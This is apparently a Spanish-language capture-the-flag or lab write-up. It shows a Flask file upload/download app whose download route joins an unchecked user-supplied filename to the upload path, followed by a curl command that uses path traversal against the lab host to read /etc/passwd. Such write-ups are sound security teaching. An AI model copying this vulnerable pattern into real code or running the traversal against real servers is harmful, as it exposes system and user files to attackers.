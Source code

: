 ```python
    if request.method == "POST":
        if "file" not in request.files:
            flash("No se ha seleccionado ningún archivo", "danger")
            return redirect(request.url)

        file = request.files["file"]

        if file.filename == "":
            flash("No se ha seleccionado ningún archivo", "danger")
            return redirect(request.url)

        file_path = os.path.join(app.config["UPLOAD_FOLDER"], file.filename)
        file.save(file_path)
        flash(f'Archivo "{file.filename}" subido correctamente.', "success")

    files = os.listdir(UPLOAD_FOLDER)
    return render_template("index.html", files=files)


@app.route("/download", methods=["GET"])
def download():
    filename = request.args.get("filename")

    if not filename:
        flash("Se requiere un nombre de archivo", "danger")
        return redirect(url_for("index"))

    file_path = os.path.join(app.config["UPLOAD_FOLDER"], filename)

    if os.path.exists(file_path):
        return send_file(file_path, as_attachment=True)

    flash("Archivo no encontrado", "danger")
    return redirect(url_for("index"))


if __name__ == "__main__":
    app.run(debug=True)
```

Vemos que hay una vulnerabilidad en la siguiente linea:

```python
@app.route("/download", methods=["GET"])
```

Vemos que podremos realizar un `Path Traversal` en la aplicacion principal, que esta en el dominio `gitea.dl` por lo que vemos en el codigo, por lo que si hacemos lo siguiente:

```shell
curl "http://gitea.dl/download?filename=../../../../../etc/passwd"
```

Info:
